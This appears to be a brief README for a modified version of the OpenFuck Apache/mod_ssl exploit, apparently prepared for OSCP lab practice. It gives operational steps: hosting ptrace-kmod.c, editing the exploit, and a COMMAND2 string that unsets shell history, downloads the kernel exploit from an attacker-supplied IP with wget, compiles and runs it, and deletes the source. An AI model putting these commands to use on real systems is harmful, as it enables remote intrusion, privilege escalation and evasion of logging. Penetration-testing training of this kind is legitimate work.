 # openfuck_oscp
modified the code on line 671

host  the ptrace-kmod.c 

added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error

enter url of the file in the command2

change the url only to execute the code

#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"


